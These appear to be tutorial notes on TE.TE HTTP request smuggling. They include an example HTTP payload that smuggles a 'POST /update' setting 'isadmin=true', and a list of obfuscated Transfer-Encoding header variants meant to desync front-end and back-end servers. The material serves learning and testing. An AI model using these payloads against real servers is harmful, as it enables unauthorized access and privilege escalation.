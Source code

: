 
- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.
    

📌 **Payload Example**

```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

# Obfuscation Techniques
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

```HTTP
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x 

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked 

X: X[\n]Transfer-Encoding: chunked 

Transfer-Encoding
: chunked
```

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

